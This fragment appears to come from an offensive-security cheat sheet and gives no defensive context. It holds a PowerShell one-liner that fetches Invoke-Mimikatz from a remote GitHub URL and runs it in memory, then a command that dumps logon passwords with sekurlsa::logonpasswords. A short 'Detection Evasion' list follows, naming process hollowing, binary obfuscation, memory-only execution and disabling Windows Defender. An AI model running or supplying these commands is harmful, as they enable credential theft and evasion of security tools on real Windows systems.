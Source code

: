 PowerShell
powershellIEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
Detection Evasion

Use process hollowing
Encrypt/obfuscate binary
Use memory-only execution
Disable Windows Defender